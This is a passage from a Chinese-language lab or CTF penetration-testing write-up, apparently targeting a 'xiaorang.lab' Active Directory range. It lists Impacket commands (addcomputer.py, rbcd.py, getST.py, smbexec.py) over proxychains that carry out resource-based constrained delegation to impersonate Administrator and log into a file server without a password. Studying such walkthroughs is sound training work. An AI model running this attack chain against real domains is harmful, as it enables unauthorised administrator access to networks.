 导入，而后无密码登录即可

```plain
export KRB5CCNAME=administrator@cifs_FILESERVER.xiaorang.lab@XIAORANG.LAB.ccache
proxychains python3 smbexec.py -no-pass -k FILESERVER.xiaorang.lab
```

[![](assets/1706846898-f97298841d6d0355c665e2ab21a66651.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214152-7daef09e-c03e-1.png)

整体过程也可以借助`Impacket`套件实现

```plain
proxychains python3 addcomputer.py xiaorang.lab/zhangxin:'admin4qwY38cc' -dc-ip 172.22.60.8 -dc-host xiaorang.lab -computer-name 'TEST2$' -computer-pass 'P@ssw0rd'

proxychains python3 rbcd.py xiaorang.lab/zhangxin:'admin4qwY38cc' -dc-ip 172.22.60.8 -action write -delegate-to 'Fileserver$' -delegate-from 'TEST2$'

proxychains python3 getST.py xiaorang.lab/'TEST2$':'P@ssw0rd' -spn cifs/Fileserver.xiaorang.lab -impersonate Administrator -dc-ip 172.22.60.8
```

